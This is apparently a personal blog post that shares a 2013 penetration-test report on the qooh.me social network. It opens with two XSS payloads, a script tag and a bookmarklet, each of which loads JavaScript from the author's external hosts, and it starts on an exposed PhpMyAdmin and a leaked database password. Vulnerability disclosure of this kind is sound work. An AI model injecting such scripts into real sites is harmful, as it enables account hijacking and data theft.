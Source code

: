 ```yaml
---
title: Penetration test report for qooh.me
author: DarkFox
date: 2013-06-01
---
```


The following is an email sent to qooh.me explaining all vulnerabilities found
in the process of penetration testing. The whole service needs a re-write and
I will soon be granted access to work with the developers for qooh.me 2.0.
I have heavily focused on XSS attacks throughout my testing.

Due to the fact that the service has been patched, my profile no longer has the
ability to run my code. You can get the expected result by running the following
javascript on the page or by manually adding in the `<script>` tag.

``` html
<script src=http://darkfox.hackerhaven.net/exploits/qooh.me/qooh.js></script>
```

You can bookmark the following so when you're on the site you can play with the
expected result. [Qooh.me exploit][qooh.js]

``` javascript
javascript:
  (s=document.createElement("script")).src="//darkfox.us.to/e/a.js";
  void(document.body.appendChild(s))
```

---

From here until the end of the document is the pentest report. If you notice any
typos or have any suggestions to improve how this reads please check out my
[contact](/contact/) page and tell me.

    From:    James McGlashan
    To:      Qooh.me Team
    Subject: [Pentest report] http://qooh.me
 
Hello Qooh.me,

After communicating through multiple channels, I have decided to conclude
all vulnerabilities for your social network into this report. Due to the number
of different vulnerabilities, I may have forgotten to include one or two.

I will begin with the most critical problem which is the public access to
PhpMyAdmin and the MySQL database password being leaked through an overload.
Next, I'll be talking about each and every XSS injection I used to "pimp" my
profile just for you and the developers.



PhpMyAdmin
==========

PhpMyAdmin is a commonly used and often mis-configured web-based client to
MySQL, one of the most commonly used databases in use today.
